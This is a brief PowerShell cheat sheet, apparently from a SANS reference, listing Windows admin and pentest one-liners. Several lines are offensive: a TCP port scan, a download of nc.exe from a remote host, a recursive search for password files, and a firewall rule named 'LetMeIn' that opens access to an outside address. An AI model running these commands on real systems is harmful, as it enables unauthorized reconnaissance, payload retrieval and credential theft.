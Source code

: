 Conduct a port scan:

```powershell
PS C:\> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "Port $_ is open!"} 2>$null
```

Fetch a file via HTTP(wget in PowerShell):

```powershell
PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/nc.exe", "nc.exe")
```

Find all files with a particular name:

```powershell
PS C:\> Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt
```

Get a listing of all installed Microsoft hotfixes:

```powershell
PS C:\> Get-HotFix
```

Naviagate the Windows registry

```powershell
PS C:\> cd HKLM:\
PS HKLM:\> ls
```

List programs set to start automatically in the registry:

```powershell
PS C:\> Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\run
```

Convert string from ASCII to Base64:

```powershell
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("PSFTW!"))
```

List and modify the windows Firewall rules:

```powershell
PS C:\> Get-NetFirewallRule –all
PS C:\> New-NetFirewallRule -Action Allow -DisplayName LetMeIn -RemoteAddress 10.10.10.25
```

<div class="grid cards" markdown>

- [:octicons-arrow-right-24: Go to the SANS PDF](https://wiki.sans.blue/Tools/pdfs/PowerShell.pdf)

</div>
